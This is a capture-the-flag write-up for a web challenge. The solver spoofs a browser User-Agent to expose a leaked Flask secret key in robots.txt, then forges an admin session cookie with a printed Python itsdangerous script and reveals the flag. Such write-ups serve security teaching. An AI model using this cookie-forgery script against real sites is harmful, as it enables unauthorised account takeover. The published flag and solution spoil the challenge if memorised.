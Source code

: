 # Old Family Recipe

### Category: Web Exploitation
### Author: Joshua Cordeiro-Zebkowitz (Rasenha)

## Description
Your team has uncovered an old admin login page that Mom & Pops Flag Shop used to run back in the day. They overhauled their website after buying up all those other shops, but rumour has it that an old family flag was left behind. Forge a path, find the flag, and enjoy your baked goods.

## Hints
1. Ever had to forge a signature? Flask gives you good practice.

## Solution

1. When you first enter the site, you'll be met with a login page. Try and login using username: admin and password: admin. (Could change these for anything, doesn't really matter).

2. You'll then see a page saying that the login was incorrect, and to visit one of Mom & Pops' recently acquired companies. In here are a few random names, but one points to 'Robots.txt'.

3. Go to the robots.txt page for the site and you'll find that it tells you that your browser is unsupported and point you towards Internet Explorer 6.01.

3. The User-Agent for IE 6.01 is "Mozilla/4.0 (compatible; MSIE 6.01; Windows NT 6.0)" (from http://www.useragentstring.com/index.php?id=7730)

4. Next you can change your browser's user-agent by (in chromium):
    - Go to 'Inspect'
    - Click on the 3 dots in the right-hand corner
    - 'More Tools'
    - 'Network Conditions'
    - Uncheck 'Use browser default'
    - Enter the User-Agent for IE 6.01

5. Now, reload the page with the new user-agent and you'll find:

```
User-agent: *
Disallow: 
# Dear Pop,
# It was awfully nice of those kinda fellas at Omni to help us out with our website, they told me
# to give them some sorta secret key for the cookies, sounds like they could use a good ol' family recipe.
# Would you be able to pass this secret key onto them?

# flour_sugar_chocolate_and_lotsalove

# Love,
# Mom

# P.S. I think they may be lost in the giggle juice, talking about their flasks...
```

6. There are some interesting words in here that might catch your eye and that relate to websites: cookies, flasks, and secret keys. If you're familiar with flask and how its session cookies work, you'll know that it signs them rather than encrypting, and to do this a "secret key" is used. If not, googling the key terms should get you a page like this one: https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

7. Now you have a the secret key by which the cookies of this site are made: flour_sugar_chocolate_and_lotsalove. To obtain your current cookie, you could use 'Inspect' -> Storage -> Cookies and get the value. This is a Base64 encoding of the session data, a time stamp, and a cryptographic hash.

8. You can decode the cookie to obtain the session data with a tool like cyberchef: https://gchq.github.io/CyberChef/.

```
E.g.

eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiYWRtaW4ifQ.Ya2IDw.nr-R-kOeBryBOrcb6Pp0n8oKSq4

Becomes

{"admin":false,"username":"admin"}..Ø.ð.´d9àkÈ.«q¾.§Iü ¤ªä

```

9. Since this is the admin account you're trying to access, you probably want to set the 'admin' field to 'true'. Unfortunately, you can't just change it to 'true' and send it off in a POST request because Flask still has the SHA1 hash which is based on the session data, the timestamp, and the secret key. Fortunately, Mom's leaked email gave you the secret key!

10. To craft the session cookie, that previous site (https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce) gives a good script, into which you just need to add the secret key and some session data for setting admin to true.

```
import hashlib
from flask import Flask
from itsdangerous import TimestampSigner, URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

session = {"admin":True,"username":"admin"}

def solve():
    s = URLSafeTimedSerializer(
        secret_key='flour_sugar_chocolate_and_lotsalove',
        salt='cookie-session',
        serializer=TaggedJSONSerializer(),
        signer=TimestampSigner,
        signer_kwargs={
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1
        }
    )
    return s.dumps(session)
```

11. Running this script will give the new session cookie, which you can send to the site by intercepting an HTTP request/using a cookie editor tool.

12. Press 'login' on the login page once that new cookie's been put in and VOILA! The Flag!

## Flag
magpie{d3l1c10u5_h0m3m4d3_c00k1e5}
